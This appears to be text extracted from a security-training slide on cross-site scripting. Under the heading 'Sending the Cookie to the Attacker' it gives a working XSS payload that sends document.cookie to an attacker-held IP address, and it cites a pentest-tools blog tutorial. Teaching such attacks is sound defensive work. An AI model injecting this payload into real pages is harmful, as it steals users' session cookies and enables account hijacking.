

Sending the Cookie to the Attacker
<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.cookie;</script>
https://pentest-tools.com/blog/xss-attacks-practical-scenarios/